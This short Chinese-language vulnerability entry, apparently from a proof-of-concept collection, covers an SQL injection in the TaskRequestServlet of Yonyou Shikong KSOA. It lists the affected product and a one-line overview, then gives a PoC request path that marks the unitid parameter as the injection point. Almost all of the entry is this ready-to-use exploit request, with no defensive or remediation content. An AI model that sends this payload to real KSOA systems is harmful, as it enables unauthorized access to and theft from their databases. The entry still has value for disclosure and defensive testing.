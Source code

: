 #### 影响范围

用友时空KSOA

#### 漏洞概述

用友时空KSOA TaskRequestServlet sql注入

#### 漏洞复现

漏洞POC：

/servlet/com.sksoft.v8.trans.servlet.TaskRequestServlet?unitid=1*&password=1,

